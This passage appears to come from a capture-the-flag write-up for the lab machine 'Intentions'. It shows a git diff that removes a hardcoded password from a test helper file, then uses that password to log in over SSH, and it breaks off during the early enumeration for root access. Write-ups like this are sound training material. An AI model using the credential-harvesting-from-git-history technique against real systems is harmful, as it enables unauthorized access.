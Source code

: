 ```
+
+        $response->assertStatus(200)->assertJson(fn (AssertableJson $json) =>
+            $json->has('data')
+                ->has('status')

```

This file is mean to test logging into the API, and it’s using hardcoded credentials for greg. In the third commit, the creds are removed:
```
git diff 36b4287 f7c903a
diff --git a/tests/Feature/Helper.php b/tests/Feature/Helper.php
index f57e37b..0586d51 100644
--- a/tests/Feature/Helper.php
+++ b/tests/Feature/Helper.php
@@ -8,12 +8,14 @@ class Helper extends TestCase
 {
     public static function getToken($test, $admin = false) {
         if($admin) {
-            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
-            return $res->headers->get('Authorization');
+            $user = User::factory()->admin()->create();
         } 
         else {
-            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
-            return $res->headers->get('Authorization');
+            $user = User::factory()->create();
         }
+        
+        $token = Auth::login($user);
+        $user->delete();
+        return $token;
     }
 }

```
Then we can get the credit `greg:Gr3g1sTh3B3stDev3l0per!1998!` and we can use ssh to connect it.

3, shell as root
I would check the `sudo -l` first 
```
$ id
uid=1001(greg) gid=1001(greg) groups=1001(greg),1003(scanner)
$ sudo -l
[sudo] password for greg: 
Sorry, user greg may not run sudo on intentions.
```
There is some files in the home directory of `greg`
```
$ ls
dmca_check.sh  dmca_hashes.test  user.txt

$ cat dmca_check.sh
/opt/scanner/scanner -d /home/legal/uploads -h /home/greg/dmca_hashes.test

$ ./dmca_check.sh
[+] DMCA-#1952 matches /home/legal/uploads/zac-porter-p_yotEbRA0A-unsplash.jpg
```
